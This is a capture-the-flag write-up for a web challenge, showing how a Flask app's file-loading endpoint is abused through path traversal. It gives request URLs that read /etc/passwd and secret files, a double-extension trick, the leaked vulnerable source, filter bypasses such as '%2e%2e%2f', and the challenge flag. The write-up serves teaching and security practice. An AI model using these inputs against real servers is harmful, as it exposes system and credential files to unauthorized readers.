 ```yaml
---
name: How I Parsed your JSON (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for How I Parsed your JSON (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# How I Parsed your JSON

[![](https://img.youtube.com/vi/ZBdApaw0r0M/0.jpg)](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=265 "How I Parsed your JSON (CIT CTF)")

## Description

> "This is the story of how I defined your schema."
>
> The flag is in secrets.txt

## Solution

We are greeted by a `FlaskMyAdmin` page, providing some basic instructions. First, we can make basic queries where the URL looks like `http://23.179.17.40:58004/select?record=*&container=tasks`.

![](images/0.PNG)

Secondly, we have some `Getting Started` instructions.

1. Create a directory called containers
2. Create a file named after your table name (do not include .json)
3. Add your data in valid JSON format

Sounds like we need to modify the URL to create a directory first. I tried some different endpoints and request methods but it all failed. Maybe we can just read files?
{% code overflow="wrap" %}

```
http://23.179.17.40:58004/select?record=*&container=/etc/passwd
```

{% endcode %}

![](images/1.PNG)

Yep! So we can try the `secrets.txt`.
{% code overflow="wrap" %}

```
http://23.179.17.40:58004/select?record=*&container=secrets.txt
```

{% endcode %}

However, it shows `"Invalid query"`, which is probably due to comment on the page `"File extensions will be removed from queries"`.

First, I simply try two extensions, assuming that the first may be stripped but not the second. Actually, it looks good! The output shows `"Results from secrets.txt"` now, rather than `"Results from secrets"`. It still says `"Invalid query"` though 🤔

Maybe we should look for other important files. It's a Flask app, so let's try some common ones. Remember the double extension: `/app/app.py.py`
{% code overflow="wrap" %}

```python
from flask import Flask, render_template, request
import json
import os

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/select')
def select():
    container_name = request.args.get('container')
    record_name = request.args.get('record')

    container_name = clean_container_name(container_name)
    container_path = os.path.join('containers/', container_name)

    try:
        with open(container_path, 'r') as container_file:
            if record_name == '*':
                return_data = container_file.read()
            else:
                json_data = json.load(container_file)
                return_records = [entry.get(record_name) for entry in json_data if record_name in entry]
                return_data = ''.join(f'{r}, ' for r in return_records)[:-2]
    except:
        return_data = 'Invalid query.'

    return render_template('index.html', data=return_data, container=container_name)

def clean_container_name(n):
    n = os.path.splitext(n)[0]
    n = n.replace('../', '')
    return n

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0')
```

{% endcode %}

Notice the code for stripping file extensions and replacing `../`, we can easily bypass that with URL-encoding (`%2e%2e%2f`) or even `..//`

We don't need to though, the flag is in `/app/secrets.txt.txt`

Just visit `http://23.179.17.40:58004/select?record=*&container=/app/secrets.txt.txt`

Flag: `CIT{235da65aa6444e27}`
